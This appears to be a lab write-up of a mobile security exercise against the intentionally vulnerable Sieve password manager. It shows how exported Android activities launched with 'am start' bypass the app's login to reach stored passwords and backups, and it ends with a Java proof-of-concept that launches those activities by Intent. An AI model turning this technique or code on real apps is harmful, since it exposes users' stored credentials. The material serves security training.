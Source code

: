 # Authentication Bypass (Exported Activity Hacking )

1. **Retrieve the APK File**: Obtain the target APK file that you want to analyze.&#x20;

<figure><img src="../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

1.  **Install APK on the Android Emulator**

    &#x20;

    <figure><img src="../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
2.  **Decompile APK using Apktool**

    <figure><img src="../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>
3.  **Decode APK Contents**

    <figure><img src="../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>
4.  **Analyze** `AndroidManifest.xml`: Investigate the `AndroidManifest.xml` file to identify declared activities and their associated permissions, Notice that there is exported Activities.

    <figure><img src="../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>
5.  **Exploration of Application Features**: Launch the application on the emulator to interact with its functionalities, Notice it is simple password manageer.

    <figure><img src="../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>
6.  **Identify Authentication Requirements**: Note any authentication mechanisms required by the application, such as password length or two-factor authentication (2FA) PIN.

    <figure><img src="../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>
7.  **Access Password List Activity**: Discover the Password List Activity mentioned in the `AndroidManifest` file, where passwords and account details are managed&#x20;

    <figure><img src="../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>
8.  **Attempt to Access Exported Activities**: Use the Activity Manager (am start -n ) to try accessing exported activities from outside the application

    <figure><img src="../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>
9. **Investigate Potential Data Storage Locations**: Start file list activity and searching for any data leakage, but found nothing + i couldn't access other activities from there.
10. **Access Password List Activity**: Successfully access the Password List Activity from outside the application

    <figure><img src="../.gitbook/assets/image (10) (1).png" alt=""><figcaption></figcaption></figure>
11. **Encounter Error Messages**: Encounter error messages when attempting to view or modify passwords due to a required service not being started.&#x20;

    <figure><img src="../.gitbook/assets/image (11) (1).png" alt=""><figcaption></figcaption></figure>
12. **Examine Settings and Backup Options**: Investigate settings options within the application to create backups of passwords
13. **Discover Backup File Accessibility**: Find that backup files can be accessed via another exported activity, `com.mwr.example.sieve/.FileSelectActivity`


14. **Identify Security Vulnerability**: Realize that plaintext passwords are accessible without authentication, potentially exposing users to password theft through malicious apps.

    <figure><img src="../.gitbook/assets/image (12) (1).png" alt=""><figcaption></figcaption></figure>
15. Example code for Exploit POC

```java
import android.content.Intent;
import android.os.Bundle;
import android.support.v7.app.AppCompatActivity;
import android.view.View;
import android.widget.Button;

public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        // Button to start FileSelectActivity
        Button fileSelectButton = findViewById(R.id.file_select_button);
        fileSelectButton.setOnClickListener(new View.OnClickListener() {
            @Override
            public void onClick(View v) {
                // Create an Intent to start the FileSelectActivity
                Intent intent = new Intent();
                intent.setClassName("com.mwr.example.sieve", "com.mwr.example.sieve.FileSelectActivity");
                startActivity(intent);
            }
        });

        // Button to start PWList Activity
        Button pwListButton = findViewById(R.id.pw_list_button);
        pwListButton.setOnClickListener(new View.OnClickListener() {
            @Override
            public void onClick(View v) {
                // Create an Intent to start the PWList Activity
                Intent intent = new Intent();
                intent.setClassName("com.mwr.example.sieve", "com.mwr.example.sieve.PWList");
                startActivity(intent);
            }
        });
    }
}
```
